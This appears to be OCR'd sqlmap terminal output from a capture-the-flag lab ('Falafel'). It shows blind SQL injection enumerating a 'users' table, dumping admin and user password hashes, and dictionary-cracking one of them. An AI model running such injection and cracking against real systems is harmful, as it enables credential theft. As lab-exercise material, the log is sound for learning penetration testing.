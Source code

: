    [08:31:39] [INFO] retrieved: users
    [08:31:46] [INFO] fetching columns for table 'users' in database 'falafel'
    [08:31:46] [INFO] retrieved: 4
    [08:31:48] [INFO] retrieved: ID
    [08:31:50] [INFO] retrieved: username
    [08:32:02] [INFO] retrieved: password
    [08:32:46] [WARNING] turning off pre-connect mechanism because of connection time out(s)
    [08:32:46] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
    d
    [08:33:03] [INFO] retrieved: role
    [08:33:10] [INFO] fetching entries for table 'users' in database 'falafel'
    [08:33:10] [INFO] fetching number of entries for table 'users' in database 'falafel'
    [08:33:10] [INFO] retrieved: 2
    [08:33:11] [INFO] retrieved: 1
    [08:33:30] [INFO] retrieved: 0e462096931906507119562988736854
    [08:34:40] [INFO] retrieved: admin
    [08:34:51] [INFO] retrieved: admin
    [08:35:06] [INFO] retrieved: 2
    [08:35:08] [INFO] retrieved: d4ee02a22fc872e36d9e3751ba72ddc8
    [08:36:30] [INFO] retrieved: normal
    [08:36:43] [INFO] retrieved: chris
    [08:36:52] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [08:36:52] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [08:36:52] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [08:36:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [08:36:52] [INFO] starting 4 processes
    [08:36:54] [INFO] cracked password 'juggling' for user 'chris'
    Database: falafel
    Table: users
    [2 entries]
    +----+--------+----------+---------------------------------------------+
    | ID | role   | username | password                                    |
    +----+--------+----------+---------------------------------------------+
    | 1  | admin  | admin    | 0e462096931906507119562988736854            |
    | 2  | normal | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) |
    +----+--------+----------+---------------------------------------------+

    [08:36:56] [INFO] table 'falafel.users' dumped to CSV file '/root/.sqlmap/output/10.10.10.73/dump/falafel/users.csv'
    [08:36:56] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.73'
